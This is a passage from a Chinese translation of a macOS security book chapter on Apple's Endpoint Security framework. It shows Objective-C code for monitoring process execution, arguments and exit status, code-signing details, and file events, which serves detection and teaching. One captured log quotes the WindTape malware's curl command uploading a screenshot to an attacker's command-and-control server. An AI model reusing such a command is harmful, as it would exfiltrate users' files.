*如果你禁用了 AMFI，Endpoint Security 可能会将所有进程，包括第三方和潜在恶意的进程，都标记为平台二进制文件。因此，如果你在禁用 AMFI 的机器上进行测试，基于 is_platform_binary 值做出的任何决策很可能是不正确的。*

我在本章之前提到过，你可以安全地忽略平台二进制文件，因为它们是操作系统的一部分。然而，现实情况并非如此简单。你可能需要考虑 *living off the land binaries (LOLBins)*，这些是攻击者可以利用的平台二进制文件，用于代表他们执行恶意操作。一个例子是 Python，正如我们刚刚看到的 Realst 恶意软件，它可以执行恶意脚本。其他 LOLBins 可能更为隐蔽。例如，恶意软件可能会使用内置的 whois 工具，在主机安全工具天真地允许所有来自平台二进制文件的流量时，偷偷地泄露网络流量。^(4)

给定一个指向 es_process_t 结构体的指针，你可以轻松地提取 is_platform_binary 字段。在列表 8-17 中，我们将其转换为对象，以便例如可以将其存储在字典中。

```
// Process is an es_process_t*

NSNumber* isPlatformBinary = [NSNumber numberWithBool:process->is_platform_binary]; 
```

列表 8-17：提取进程的平台二进制状态

你的代码可能不会使用 cdhash 字段，但列表 8-18 展示了如何提取并利用 Apple 的 *cs_blobs.h* 头文件中的 CS_CDHASH_LEN 常量将其转换为对象。

```
// Process is an es_process_t*

NSData* cdHash = [NSData dataWithBytes:(const void *)process->cdhash
length:sizeof(uint8_t)*CS_CDHASH_LEN]; 
```

列表 8-18：提取进程的代码签名哈希

在 es_process_t 结构体中，接下来是签名和团队标识符，它们作为字符串令牌存储。如第三章中所讨论的，这些信息可以告诉你是谁签署了该项内容以及他们所属的团队，这有助于减少误报或检测到其他相关的恶意软件。由于这些值都是 es_string_token_t，你可能会再次希望将它们存储为更易管理的对象（列表 8-19）。

```
// Process is an es_process_t*

NSString* signingID = [[NSString alloc] initWithBytes:process->signing_id.data
length:process->signing_id.length encoding:NSUTF8StringEncoding];

NSString* teamID = [[NSString alloc] initWithBytes:process->team_id.data
length:process->team_id.length encoding:NSUTF8StringEncoding]; 
```

列表 8-19：提取进程的签名和团队 ID

在将此代码签名提取代码添加到 *ESPlayground* 中的进程监控逻辑后，让我们执行前述的第二阶段有效载荷 *UpdateAgent*，这是 3CX 供应链攻击中使用的。很明显，该有效载荷使用了临时证书（CS_ADHOC）进行签名，这通常是一个警告信号：

```
# **ESPlayground.app/Contents/MacOS/ESPlayground -monitor**

ES Playground
Executing (process) 'monitor' logic

event: ES_EVENT_TYPE_NOTIFY_EXEC
(new) process
  pid: 10815
  path: /Users/User/Malware/3CX/UpdateAgent
  ...
  code signing flags: 0x22000007
  code signing flag 'CS_VALID' is set
  code signing flag 'CS_SIGNED' is set
  code signing flag 'CS_ADHOC' is set 
```

通过 Endpoint Security 提供的这些代码签名信息，我们接近完成进程监控逻辑的实现。

##### 参数

让我们从消息特定内容开始，首先是 ES_EVENT_TYPE_NOTIFY_EXEC 消息中的进程参数。在第一章中，我讨论了进程参数在检测恶意代码中的重要性，并通过编程提取了正在运行的进程的参数。如果你订阅了类型为 ES_EVENT_TYPE_NOTIFY_EXEC 的 Endpoint Security 事件，你会看到 Endpoint Security 已经为你完成了大部分繁重的工作。

这些事件是 es_event_exec_t 结构体，你可以将其传递给两个 Endpoint Security 辅助 API，es_exec_arg_count 和 es_exec_arg，以提取触发 Endpoint Security 事件的参数（列表 8-20）。

```
NSMutableArray* arguments = [NSMutableArray array];

const es_event_exec_t* exec = &message->event.exec;

❶ for(uint32_t i = 0; i < es_exec_arg_count(exec); i++) {
  ❷ es_string_token_t token = es_exec_arg(exec, i);
  ❸ NSString* argument = [[NSString alloc] initWithBytes:token.data
    length:token.length encoding:NSUTF8StringEncoding];

  ❹ [arguments addObject:argument];
} 
```

列表 8-20：提取进程的参数

在初始化一个数组来存储参数后，代码调用 es_exec_arg_count 来确定参数的数量❶。我们在 for 循环的初始化中进行此检查，以跟踪我们调用 es_exec_arg 函数的次数。然后，我们使用当前索引调用该函数，以获取该索引位置的参数❷。由于该参数存储在 es_string_token_t 结构中，代码将其转换为字符串对象❸，并将其添加到数组中❹。

当我们将这段代码添加到 *ESPlayground* 项目时，我们现在可以观察到进程参数，例如，当 WindTape 恶意软件执行 curl 命令将录制的屏幕截图传输到攻击者的指挥与控制服务器时：

```
# **ESPlayground.app/Contents/MacOS/ESPlayground -monitor**

ES Playground
Executing (process) 'monitor' logic

event: ES_EVENT_TYPE_NOTIFY_EXEC
(new) process
 pid: 18802
 path: /usr/bin/curl
 ...
 arguments : (
  "/usr/bin/curl"
  "http://string2me.com/xnrftGrNZlVYWrkrqSoGzvKgUGpN/zgrcJOQKgrpkMLZcu.php",
  "-F",
  "qwe=@/Users/User/Library/lsd.app/Contents/Resources/14-06 06:28:07.jpg",
  "-F",
  "rest=BBA441FE-7BBB-43C6-9178-851218CFD268",
  "-F",
  "fsbd=Users-Mac.local-User"
) 
```

你可以使用类似的函数 es_exec_env_count 和 es_exec_env 从 es_event_exec_t 结构中提取进程的环境变量。

##### 退出状态

当进程退出时，我们将收到来自 Endpoint Security 的消息，因为我们已订阅了 ES_EVENT_TYPE_NOTIFY_EXIT 事件。知道进程何时退出对于以下目的非常有用：

> **判断进程是否成功或失败** 进程的退出代码能提供有关进程是否成功执行的信息。例如，如果该进程是恶意安装程序，这些信息可以帮助我们判断其影响。
> 
> **执行任何必要的清理** 在许多情况下，安全工具会跟踪进程的生命周期活动。例如，勒索软件检测器可以监控每个新进程，以检测那些快速创建加密文件的进程。当进程退出时，检测器可以执行必要的清理工作，例如释放已创建文件的进程列表，并从缓存中移除该进程。

ES_EVENT_TYPE_NOTIFY_EXIT 事件的事件结构类型是 es_event_exit_t。通过查看 *ESMessage.h* 头文件，我们可以看到它包含一个名为 stat 的单一（非保留）字段，表示进程的退出状态：

```
typedef struct {
    int stat;
    uint8_t reserved[64];
} es_event_exit_t; 
```

了解这一点后，我们提取进程的退出代码，如清单 8-21 所示。

```
❶ case ES_EVENT_TYPE_NOTIFY_EXIT: {
  ❷ int status = message->event.exit.stat;
    ...
} 
```

清单 8-21：提取退出代码

因为进程监控逻辑也注册了进程执行事件（ES_EVENT_TYPE_NOTIFY_EXEC），所以代码首先确保我们正在处理的是进程退出事件（ES_EVENT_TYPE_NOTIFY_EXIT）❶。如果是，它会提取退出代码❷。

#### 停止客户端

在某些情况下，你可能希望停止你的 Endpoint Security 客户端。只需通过 es_unsubscribe_all 函数取消订阅事件，然后通过 es_delete_client 删除客户端。正如清单 8-22 所示，这两个函数都以我们之前使用 es_new_client 函数创建的客户端作为参数。

```
es_client_t* client = // Previously created via es_new_client
...
es_unsubscribe_all(client);
es_delete_client(client); 
```

清单 8-22：停止 Endpoint Security 客户端

查看 *ESClient.h* 头文件，了解更多有关函数的细节。例如，代码应该仅在创建客户端的相同线程中调用 es_delete_client。

这部分总结了如何创建一个能够跟踪进程执行和退出的进程监视器，并从每个事件中提取信息，这些信息可以用来输入到各种基于启发式的规则中。当然，你也可以注册许多其他的终端安全事件。接下来，我们来探讨文件事件，它们为文件监视器提供了基础。

### 文件监控

文件监视器是检测和理解恶意代码的强大工具。例如，臭名昭著的勒索软件团伙如 Lockbit 已经开始瞄准 macOS,^(5) 所以你可能想编写能够识别勒索软件的软件。在我 2016 年的研究论文《朝向通用勒索软件检测》里，我强调了一种简单而有效的方法来实现这一目标。^(6) 简而言之，如果我们能监控由不信任的进程迅速创建的加密文件，我们应该能够检测并阻止勒索软件。虽然任何基于启发式的方法都有其局限性，但我的方法即使面对新的勒索软件样本也证明了其有效性。它甚至检测到了 Lockbit 在 2023 年进军 macOS 领域的情况。

这种通用勒索软件检测的核心能力是监控文件的创建。使用终端安全性，可以轻松创建一个文件监视器，来检测文件创建和其他文件 I/O 事件。^(7) 你可以在 Objective-See 的 GitHub 仓库中的 *FileMonitor* 项目找到一个功能齐全的文件监视器源代码，地址是 [*https://<wbr>github<wbr>.com<wbr>/objective<wbr>-see<wbr>/FileMonitor*](https://github.com/objective-see/FileMonitor)。

因为我已经讨论过如何创建终端安全客户端并注册感兴趣的事件，所以我不会再次讨论这些主题。相反，我将专注于监控文件事件的具体细节。在 *ESTypes.h* 头文件中，我们可以找到许多覆盖文件 I/O 的事件。最有用的通知事件之一包括：

> **ES_EVENT_TYPE_NOTIFY_CREATE** 当新文件创建时传递
> 
> **ES_EVENT_TYPE_NOTIFY_OPEN** 当文件打开时传递
> 
> **ES_EVENT_TYPE_NOTIFY_WRITE** 当文件被写入时传递
> 
> **ES_EVENT_TYPE_NOTIFY_CLOSE** 当文件关闭时传递
> 
> **ES_EVENT_TYPE_NOTIFY_RENAME** 当文件重命名时传递
> 
> **ES_EVENT_TYPE_NOTIFY_UNLINK** 当文件被删除时传递

让我们注册与文件创建、打开、关闭和删除相关的事件（列表 8-23）。

```
es_event_type_t events[] = {ES_EVENT_TYPE_NOTIFY_CREATE, ES_EVENT_TYPE_NOTIFY_OPEN,
ES_EVENT_TYPE_NOTIFY_CLOSE, ES_EVENT_TYPE_NOTIFY_UNLINK}; 
```

列表 8-23: 关注的文件 I/O 事件

在使用 es_new_client 创建一个新的 Endpoint Security 客户端后，我们可以使用新的感兴趣事件列表调用 es_subscribe 函数来进行订阅。此时，子系统应开始将文件 I/O 事件传递给我们，这些事件封装在 es_message_t 结构中。回想一下，es_message_t 结构包含有关事件的元信息，例如事件类型和触发该事件的进程。文件监控器可以使用这些信息将传递的文件事件与负责的进程映射起来。

除了报告事件类型和负责的进程外，文件监控器还应捕获文件路径（在文件创建事件中，这将指向创建的文件）。提取路径的步骤取决于具体的文件 I/O 事件，因此我们将详细查看每一种情况，从文件创建事件开始。

我们已经订阅了 ES_EVENT_TYPE_NOTIFY_CREATE，因此每当文件被创建时，Endpoint Security 会将消息传递给我们。该事件的数据存储在 es_event_create_t 类型的结构中：

```
typedef struct {
  ❶ es_destination_type_t destination_type;
    union {
      ❷ es_file_t* _Nonnull existing_file;
            struct {
                es_file_t* _Nonnull dir;
                es_string_token_t filename;
                mode_t mode;
            } new_path;
        } destination;
        ...
    };
} es_event_create_t; 
```

尽管这个结构乍一看似乎比较复杂，但在大多数情况下，处理起来相当简单。destination_type 成员应该设置为两种枚举值之一 ❶。Apple 在 *ESMessage.h* 头文件中解释了这两者之间的区别：

> 通常，ES_EVENT_TYPE_NOTIFY_CREATE 事件会在对象创建后触发，此时 destination_type 将是 ES_DESTINATION_TYPE_EXISTING_FILE。例外情况是，当 ES 客户端对 ES_EVENT_TYPE_AUTH_CREATE 事件作出响应并返回 ES_AUTH_RESULT_DENY 时，会触发通知。

由于一个简单的文件监控器不会注册 ES_EVENT_TYPE_AUTH_* 类型的事件，因此我们可以专注于前者的情况。

我们将在 es_event_create_t 结构的 destination 联合体中的 existing_file 成员中找到刚创建的文件路径 ❷。由于 existing_file 存储为 es_file_t 类型，提取新创建文件的路径非常简单，如示例 8-24 所示。

```
// Event type: ES_EVENT_TYPE_NOTIFY_CREATE

if(ES_DESTINATION_TYPE_EXISTING_FILE == message->event.create.destination_type) {
    es_string_token_t* token = &message->event.create.destination.existing_file->path;

    NSString* path = [[NSString alloc] initWithBytes:token->data length:token->length encoding:
    NSUTF8StringEncoding];

    printf("Created path -> %@\n", path.UTF8String);
} 
```

示例 8-24：提取新创建的文件路径

因为我们也注册了 ES_EVENT_TYPE_NOTIFY_OPEN 事件，所以每当文件被打开时，Endpoint Security 会传递一个包含 es_event_open_t 事件结构的消息。该结构包含一个指向成员命名为 file 的 es_file_t 指针，指向包含已打开文件路径的文件。我们在示例 8-25 中提取了该信息。

```
if(ES_EVENT_TYPE_NOTIFY_OPEN == message->event_type) {
    es_string_token_t* token = &message->event.open.file->path;

    NSString* path = [[NSString alloc] initWithBytes:token->data length:token->length
    encoding:NSUTF8StringEncoding];

    printf("Opened file -> %s\n", path.UTF8String);
} 
```

示例 8-25：提取已打开的文件路径

ES_EVENT_TYPE_NOTIFY_CLOSE 和 ES_EVENT_TYPE_NOTIFY_UNLINK 的逻辑类似，因为这两个事件结构都包含一个指向文件路径的 es_file_t*。

我将通过讨论一个同时包含源路径和目标路径的文件事件来结束这一部分。例如，当一个文件被重命名时，Endpoint Security 会传递一个类型为 ES_EVENT_TYPE_NOTIFY_RENAME 的消息。在这种情况下，es_event_rename_t 结构包含一个指向源文件（恰当地命名为 source）的 es_file_t 结构指针，以及一个指向目标文件（命名为 existing_file）的指针。我们可以通过 message->event.rename.source->path 来访问原始文件的路径。

获取重命名文件的目标路径略有一些复杂，因为我们首先必须检查 es_event_rename_t 结构的 destination_type 字段。这个字段是一个枚举，包含两个值：ES_DESTINATION_TYPE_EXISTING_FILE 和 ES_DESTINATION_TYPE_NEW_PATH。对于现有文件值，我们可以通过 rename.destination.existing_file->path 直接访问目标文件路径（假设我们有一个名为 rename 的 es_event_rename_t 结构）。然而，对于目标值，我们必须将目标目录与目标文件名连接起来；我们将在 rename.destination.new_path.dir->path 中找到目录，在 rename.destination.new_path.filename 中找到文件名。

### 结论

本章介绍了 Endpoint Security，这是 macOS 上编写安全工具的事实标准框架。我们通过订阅进程和文件事件的通知构建了基础的监控和检测工具。在下一章中，我将继续讨论 Endpoint Security，但将重点介绍更高级的话题，如静音处理，以及 ES_EVENT_TYPE_AUTH_*事件，这些事件提供了主动检测和阻止系统上恶意活动的机制。在第三部分，我将继续讨论，并详细介绍基于 Endpoint Security 构建的功能全面的工具的创建。

### 备注

1.    1。 “Endpoint Security”，Apple 开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/endpointsecurity*](https://developer.apple.com/documentation/endpointsecurity)。

1.    2。你可以在其手册页或在《Blue Teaming on macOS with eslogger》一文中了解更多关于 eslogger 的内容，CyberReason，2022 年 10 月 3 日，[*https://<wbr>www<wbr>.cybereason<wbr>.com<wbr>/blog<wbr>/blue<wbr>-teaming<wbr>-on<wbr>-macos<wbr>-with<wbr>-eslogger*](https://www.cybereason.com/blog/blue-teaming-on-macos-with-eslogger)。

1.    3。你可以在 Patrick Wardle 的《Ironing Out (the macOS) Details of a Smooth Operator (Part II)》一文中了解更多关于此恶意软件的信息，Objective-See，2023 年 4 月 1 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x74<wbr>.html*](https://objective-see.org/blog/blog_0x74.html)。

1.    4。有关 macOS LOLBins 的更多信息，请参阅 GitHub 上的 Living Off the Orchard: macOS Binaries (LOOBins)库：[*https://<wbr>github<wbr>.com<wbr>/infosecB<wbr>/LOOBins*](https://github.com/infosecB/LOOBins)。

1.    5.  Patrick Wardle，“LockBit 勒索软件（有点）袭击 macOS，”Objective-See，2023 年 4 月 16 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x75<wbr>.html*](https://objective-see.org/blog/blog_0x75.html)。

1.    6.  Patrick Wardle，“面向通用勒索软件检测，”Objective-See，2016 年 4 月 20 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x0F<wbr>.html*](https://objective-see.org/blog/blog_0x0F.html)。

1.    7.  要了解更多关于创建完整文件监视器的信息，请参阅 Patrick Wardle，“使用 Apple 的 Endpoint Security 框架编写文件监视器，”Objective-See，2019 年 9 月 17 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x48<wbr>.html*](https://objective-see.org/blog/blog_0x48.html)。另请参见第十一章，其中讨论了 BlockBlock 工具。
